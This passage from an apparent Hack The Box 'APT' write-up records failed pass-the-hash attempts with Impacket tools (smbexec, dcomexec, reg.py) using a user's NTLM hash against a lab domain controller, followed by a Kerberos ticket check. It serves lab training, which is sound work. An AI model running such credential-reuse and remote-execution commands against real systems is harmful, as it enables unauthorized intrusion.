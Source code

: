 I tried using `wmiexec.py` but I was denied access by RPC.  I did find out that the machine was using SMBv3 which made things more difficult.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

I was starting to think that the hash was not valid since all of the tools were giving access denied errors, though it did enumerate shares...

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb htb/henry.vinson@apt.htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

I kept going down the list of impacket tools that seemed relevant.  I had to look up query syntax for `reg` when I came to `reg.py`.

* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query

The argument `-s` sounded useful for dumping all keys at once.  HKCU seemed like a good place to start dumping.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ python3 /usr/local/bin/reg.py -dc-ip apt.htb.local -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb apt.htb.local query -keyName HKCU -s
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```

However, this also didn't seem to work.  I tried each of these Impacket tools using the `-k` option to use Kerberos authentication after exporting the key to KRB5CCNAME, but it didn't seem to authenticate with what I thought was the correct Kerberos ticket.  I decided to go back and try to troubleshoot my ticket.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ klist
Ticket cache: FILE:henry.vinson@apt.htb.ccache
Default principal: henry.vinson@HTB.LOCAL

Valid starting       Expires              Service principal
03/30/2021 21:54:04  03/31/2021 07:54:04  krbtgt/HTB@HTB.LOCAL
     renew until 03/31/2021 21:52:51
```
